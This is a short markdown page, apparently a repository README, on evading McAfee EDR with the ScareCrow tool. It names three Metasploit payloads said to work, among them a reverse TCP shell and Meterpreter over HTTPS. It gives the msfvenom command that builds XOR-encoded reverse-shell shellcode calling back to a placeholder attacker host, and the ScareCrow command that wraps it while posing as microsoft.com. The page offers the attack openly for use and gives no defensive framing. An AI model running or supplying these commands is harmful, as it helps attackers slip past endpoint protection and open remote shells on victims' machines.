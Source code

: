 # Bypassing using ScareCrow

You can use the scarecrow tool to bypass McAfee EDR. We tested 3 types of metasploit payloads that work, they are:

* windows/x64/shell/reverse_tcp
* windows/x64/meterpreter_reverse_https
* windows/64/exec

Commands:
```
$ msfvenom -p windows/x64/shell/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f raw -a x64 -e x64/xor > shellcode.bin 
$ ./ScareCrow_4.11_linux_amd64 -I shellcode.bin -domain microsoft.com 
```
